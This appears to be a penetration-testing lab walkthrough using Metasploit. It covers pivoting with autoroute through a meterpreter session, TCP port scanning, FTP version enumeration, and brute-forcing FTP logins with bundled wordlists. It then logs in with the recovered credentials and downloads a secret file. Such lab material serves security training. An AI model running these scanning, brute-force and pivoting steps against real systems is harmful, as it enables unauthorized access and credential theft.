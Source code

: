 The target has two interfaces : `192.8.146.3` and `192.81.84.2`.

```
meterpreter> run autoroute -s 192.81.84.2

Ctrl+Z for background

msf5> sessions
```

You must have a session.

```
msf5> use auxiliary/scanner/portscan/tcp
msf5> set rhosts 192.81.84.3
msf5> run
```

The ports open on `192.81.84.3` are `21` `22` `80`.

### FTP enumeration

* We can use multiple auxiliary modules to enumerate information as well as perform brute-force attacks on the target running an FTP server.

```
john@attack> service postgresql start && msfconsole

msf5> workspace -a ftp_enum
msf5> use auxiliary/scanner/portscan/tcp
msf5> set rhosts 192.7.200.3
```

The port `192.7.200.3:21` is open.

```
msf5> search type:auxiliary name:ftp
msf5> use auxiliary/scanner/ftp/ftp_version
msf5> set rhosts 192.7.200.3
msf5> run
```

<figure><img src="../../.gitbook/assets/75.png" alt=""><figcaption></figcaption></figure>

```
msf5> use auxiliary/scanner/ftp/ftp_login
msf5> set rhosts 192.7.200.3
msf5> set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5> set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5> run
```

The FTP credentials are `sysadmin:654321`.

```bash
root@attackdefense> ftp 192.7.200.3  # sysadmin:654321

ftp> get secret.txt
ftp> bye

root@attackdefense> cat secret.txt
```
